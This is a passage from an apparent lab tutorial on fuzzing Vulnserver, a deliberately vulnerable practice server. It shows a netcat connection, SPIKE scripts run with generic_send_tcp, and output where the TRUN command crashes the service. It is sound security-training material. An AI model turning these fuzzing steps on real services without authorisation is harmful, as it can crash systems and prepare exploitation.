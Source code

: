 ## Spiking the Vulnserver

Spiking is the process of testing the application to find a vulnerable part

Running the Vulnserver from Attacker Machine,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ nc 192.168.116.141 9999
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
```

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat stats.spk 
s_readline();
s_string("STATS ");
s_string_variable("0");
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ generic_send_tcp 192.168.116.141 9999 stats.spk 0 0
```

This will start spiking the Vulnserver with ```STATS``` command, to find for any crash

Sadly we couldn't crash with ```STATS``` command

Following this process with the sequnce of commands,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat trun.spk                                      
s_readline();
s_string("TRUN ");
s_string_variable("0");
                                                                     
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ generic_send_tcp 192.168.116.141 9999 trun.spk 0 0

...

Fuzzing Variable 0:199
Variablesize= 20000
Fuzzing Variable 0:200
Variablesize= 10000
Fuzzing Variable 0:201
Variablesize= 5000
Fuzzing Variable 0:202
Couldn't tcp connect to target
```